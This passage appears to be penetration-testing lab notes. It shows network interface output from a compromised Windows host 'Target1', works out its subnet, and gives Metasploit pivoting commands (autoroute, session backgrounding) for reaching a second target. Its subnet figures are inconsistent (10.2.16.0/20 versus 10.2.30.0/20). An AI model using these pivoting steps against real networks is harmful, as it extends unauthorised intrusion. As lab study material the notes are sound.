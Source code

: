 ```bash

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:2a:6e:86:47:fc
    MTU          : 9001
    IPv4 Address : 10.2.30.252 #
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::9c0b:f00a:d8b4:f04f
    IPv6 Netmask : ffff:ffff:ffff:ffff::

    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:1efc
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Target2 is on the same Target1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254`


### Pivoting

- From the attacker's machine, a route through "target1 `10.2.30.0/20` machine" is needed, to run MSF modules against target2 machine

```bash
run autoroute -s 10.2.30.0/20
```

![run autoroute -s 10.2.30.0/20](.gitbook/assets/image-20230420000244119.png)

- Now, subnet `10.2.30.0/20` can be accessed with `MSFconsole`

```bash
background
sessions -n target-1 -i 1
```
